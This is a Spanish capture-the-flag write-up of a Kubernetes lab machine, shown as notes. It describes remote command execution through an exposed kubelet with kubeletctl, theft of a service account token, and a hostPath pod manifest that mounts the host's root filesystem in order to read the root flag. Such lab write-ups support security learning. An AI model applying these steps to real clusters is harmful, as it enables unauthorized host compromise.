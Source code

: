## Reconocimiento

### Escaneo de puertos abiertos

Se identificaron los siguientes puertos abiertos:

```
22, 2379, 2380, 8443, 10249, 10250, 10256
```

El análisis de estos puertos reveló que el servicio en ejecución está relacionado con Kubernetes:

- **Puerto 8443**: API de Kubernetes ([[kubectl]])
    
- **Puertos 2379 y 2380**: Cluster de [[etcd]] para Kubernetes
    
- **Puertos 10249 y 10250**: Relacionados con [[InfluxDB]] y [[kubelet]]
    
- **Puerto 10250**: Permite interacción con kubelet a través de [[kubeletctl]]

## Explotación del Puerto 10250 (Kubelet)

### Enumeración con kubeletctl

- Se listaron los pods disponibles en el sistema:

```
kubeletctl -s <IP> get pods
```

![[Pasted image 20250317131052.png]]

- Se identificó que el único pod en el _namespace_ por defecto es `nginx`.
	![[Pasted image 20250317132329.png]]
- Se verificó que el pod permite ejecución remota (_RCE_), observando el símbolo `+` en la columna correspondiente.

### Ejecución de comandos

Dado que la salida de los comandos se recibe en nuestra terminal, se comprobó que lanzar una shell es suficiente:

```
kubeletctl -s <IP> exec -p nginx -c nginx "bash"
```

## Escalada de Privilegios

### Extracción del ServiceAccount y Token

Dentro del directorio `/run/secrets/kubernetes.io/serviceaccount` se encontraron los siguientes archivos relevantes:

![[Pasted image 20250317134653.png]]

```
ca.crt
token
namespace
```

Utilizando este token, se pudo acceder a la API de Kubernetes mediante `kubectl`:

```
kubectl --server=https://<IP>:8443 --certificate-authority=ca.crt --token=<TOKEN> get pods
```


Se verificó que los permisos estaban limitados principalmente al pod `nginx`.

### Enumeración de permisos

Ejecutando:

```
kubectl auth can-i --list
```

Se encontró que era posible **crear pods**, lo que permitía la ejecución de contenedores personalizados.

## Creación de un nuevo Pod malicioso

Se creó un nuevo pod con acceso a la raíz del host:

```
apiVersion: v1
kind: Pod
metadata:
  name: dz4-pod
  namespace: default
spec:
  containers:
  - name: dz4-pod
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
```

Se desplegó el pod con:

```
kubectl apply -f pod.yaml --server=https://<IP>:8443 --certificate-authority=ca.crt --token=<TOKEN>
```

Al listar los pods, se verificó que el nuevo pod estaba en ejecución:

```
kubectl get pods
```

Se accedió a la shell del contenedor:

```
kubeletctl -s <IP> -p dz4-pod -c dz4-pod exec "bash"
```

Desde este contenedor, se accedió al sistema host a través de `/mnt/`, lo que permitió explorar el sistema de archivos del servidor.
## Obtención de la Flag

Se accedió a `/root/` y se encontró la flag de root.

```
cd /mnt/root/
cat root.txt
```

**FIN**